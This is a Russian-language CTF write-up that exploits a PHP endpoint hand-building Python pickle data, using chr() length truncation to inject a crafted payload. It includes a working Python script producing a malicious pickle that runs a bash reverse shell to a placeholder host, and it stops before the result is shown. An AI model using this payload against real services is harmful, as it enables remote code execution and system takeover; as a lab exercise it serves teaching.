


# Шифрователь ДНК

Проанализировав исходный код, видим самописную сериализацию для Python:

```php
$router->post('/', function (\Illuminate\Http\Request $request) {
    function pickle_dumps($array) {
        $pickle = "";
        foreach ($array as $str) {
            $pickle .= "\x8C" . chr(strlen($str)) . $str . "\x94";
        }
        $pickle = "\x5D\x94\x28" . $pickle . "\x65";
        $pickle = "\x80\x04\x95" . pack("Q", strlen($pickle)) . $pickle . "\x2E";
        return $pickle;
    }
    $conversion_type = $request->input('conversion_type');
    $array = $request->input('data');
    var_dump($array);
    $pickle = pickle_dumps($array);
```

Если данные тщательно не валидируются (а еще хуже берутся прямо у пользователя) возникает большая проблема. Десериализация специально сконструированного пэйлоада в питоне может привести к [исполнению произвольного кода](https://github.com/CalfCrusher/Python-Pickle-RCE-Exploit).

Наш случай несколько сложнее, ведь код выше сериализует массив в питоновский список строк, поэтому нужно передать такую строку, чтобы на выходе получить валидные данные, которые сможет скушать *pickle*.

Заметим одну важную деталь - `chr` возвращает символ из последнего байта числа, т.е. если передать ему 0x101, он вернет \x01. Теперь можно подготовить payload:

```python
from pickle import dumps
from base64 import b64encode

class evil(object):
    def __reduce__(self):
        import os
        return (os.system, (cmd,))

cmd = 'bash -c "bash -i >& /dev/tcp/ip/port 0>&1"'

payload = dumps(evil()) + b'\x8c\x01a'
n = 0x101 - len(payload) - 4
payload = b'a\x94\x8c' + bytes([n]) + b'a' * n + payload

print(b64encode(payload))
```

Таким образом длина payload'а = 0x101

- закрытие строки длиной 1 +
- padding строка (которая увеличивает длину payload'а) +
- RCE объект +
- открытие строки длиной 1

Зашлем наш payload на сервер и получим флаг:




